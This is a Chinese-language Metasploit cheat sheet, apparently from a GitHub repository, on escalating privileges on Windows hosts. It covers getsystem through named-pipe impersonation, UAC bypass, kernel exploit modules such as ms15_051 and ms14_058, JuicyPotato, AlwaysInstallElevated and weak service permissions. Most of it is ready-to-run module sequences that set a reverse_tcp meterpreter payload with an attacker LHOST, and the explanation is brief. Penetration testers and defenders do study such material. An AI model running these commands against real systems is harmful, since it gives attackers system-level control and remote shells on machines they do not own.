






## Metasploit

#### 一、GetSystem命名管道

<br/>

##### 0x01、提权命令

```sh
getuid    # 获取连接用户id
 
getsystem   # 通过命名管道进行提权，获得system账号权限
```

普通账户在getsystem是会报错，提示需要管理员组

<br/>

##### 0x02、命名管道介绍

> 命名管道（Named Pipes）是一种简单的进程间通信（IPC）机制。命名管道可以在同一台计算机的不同进程之间，或者跨越一个网络的不同计算机的不同进程之间的可靠的双向或单向的数据通信。

- 服务端
  
  创建管道实例 -> 等待客户端连接 -> 读取数据 -> 逻辑处理 -> 写回数据
- 客户端
  
  检测管道是否可用 -> 连接服务端管道 -> 写数据到服务端 -> 从服务端读取数据 -> 断开管道连接

创建管道函数：`CreateNamedPipe`

- 模拟令牌
  > 模拟令牌是命名管道中常见的一种方法，一般可以用来提权操作， Metasploit 中的 getsystem 也 就是这个原理。
  
  步骤
  ```text
  1. 创建一个以system权限启动的程序，这个程序的作用是连接指定的命名管道
  2. 创建一个进程，并让进程创建命名管道
  3. 让之前的以 system 权限启动的程序启动并连接这个命名管道
  4. 利用 ImpersonateNamedPipeClient() 函数生成 system 权限的 token
  5. 利用 system 权限的 token 启动 cmd.exe
  ```

使用脚本工具创建命名管道

> https://github.com/decoder-it/pipeserverimpersonate

```sh
# 创建
powershell -ep bypass -f pipeserverimpersonate.ps1

# 查看
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
```



<br/>

#### 二、BypassUAC

<br/>

##### 0x01、绕过账户控制

> getsystem 提权方式对于普通用户来说是失败的不可正常执行的，那么这种情况下就需要绕过系统 UAC来进行 getsystem 提权

```sh
use exploit/windows/local/bypassuac
set payload windows/x64/meterpreter/reverse_tcp
set LHOST=192.168.1.170
set session 1
exploit
```


######  a、搜索绕过模块

```sh
search bypassuac
```



###### b、提权漏洞检测模块

```sh
search local_exploit_suggester
```



部分检出漏洞模块可能无法利用，需自行测试

```sh
#该模块在某些版本成功率较高
exploit/windows/local/cve_2019_1458_wizardopium
```

<br/>

#### 三、Windows内核提权漏洞

查找windows本地提权漏洞

```sh
# https://github.com/SecWiki/windows-kernel-exploits
# https://www.freebuf.com/articles/system/184289.html

search exploit/windows/local Privilege
```

##### 0x01、enum_patches

```sh
use post/windows/gather/enum_patches
set session 7
run
```





##### 0x02、ms15_051_client_copy_image

> 使用于windows7、windows server 2008R2 SP1 x64

```sh
use exploit/windows/local/ms15_051_client_copy_image
set payload windows/x64/meterpreter/reverse_tcp
set session 7
set target 1
exploit
```



##### 0x03、ms14_058_track_popup_menu

```sh
use exploit/windows/local/ms14_058_track_popup_menu
set payload windows/x64/meterpreter/reverse_tcp
set session 7
set target 1
exploit
```

##### 0x04、JuicyPotato

```sh
juicypotato.exe -t * -p "payload.exe" -l 9001 -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

<br/>

#### 四、服务漏洞提权

##### 0x01、AlwaysInstallElevated

> AlwaysInstallElevated 是一个策略设置，当在系统中使用Windows Installer安装任何程序时，该 参数允许非特权用户以system权限运行MSI文件。

https://www.cnblogs.com/zpchcbd/p/11943147.html

##### 0x02、Always Install Elevated提权利用

判断是否启用此策略：

```text
reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

收到 "AlwaysInstallElevated REG_DWORD 0x1"，说明策略已经启用。

如果没有启用需要添加注册表项启用策略。

或者直接使用MSF模块：`use exploit/windows/local/always_install_elevated`

##### 0x03、可信任服务路径

控制低权限帐户后，生成`payload`放入有漏洞的目标服务路径

`exploit/windows/local/unquoted_service_path`

<br/>

##### 0x04、 不安全的服务权限

系统里安装了一些需要每天检查更新的软件，通常是创建了一个服务程序定时执行

`use exploit/windows/local/service_permissions`
